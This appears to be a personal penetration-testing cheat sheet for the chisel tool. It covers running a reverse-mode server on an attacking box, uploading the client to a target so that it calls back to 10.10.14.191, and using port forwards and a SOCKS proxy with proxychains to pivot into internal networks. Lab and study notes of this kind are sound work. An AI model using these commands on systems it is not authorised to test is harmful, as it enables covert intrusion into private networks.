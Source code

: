 ```yaml
---
tags:
  - networking
  - routing
---
```

# chisel

Route network traffic in restricted environments

## Capabilities

Edit `/etc/hosts` to resolve `127.0.0.1` to a hostname if necessary

Set up `chisel` in `server` mode on attacking box. This is essentially a `netcat` listener that will listen for connections on port `8050`

```bash
# Listen on 8050
chisel server -p 8050 --reverse

# Listen on 8050, allowing chisel to see the local socks5 proxy (proxychains)
chisel server --socks5 -p 8050 --reverse
```

Upload `chisel` or `chisel.exe` to target and run in `client` mode. The command `client 10.10.14.191:8050 R:socks` will reach out to our listener at `10.10.14.191:8050` and act as a SOCKS proxy, forwarding all of our traffic to its appropriate destination

```powershell
# Listen on Kali 80, forward to localhost port 80 on client
chisel client 10.10.14.191:8050 R:80:127.0.0.1:80

# Listen on Kali 4444, forward to 10.10.10.240 port 80
chisel client 10.10.14.191:8050 R:4444:10.10.10.240:80

# Create SOCKS5 listener on 1080 on Kali, proxy through client
chisel client 10.10.14.191:8050 R:socks
```

Change `/etc/proxychains4.conf`

```bash
# ... At the very bottom of the file, we set the ProxyList to only point to port 9999.
[ProxyList]
socks5 127.0.0.1 1080
```

Now when we run the following command

```bash
proxychains ping 172.16.1.12
```

Proxychains will take the command and send it through our chisel tunnel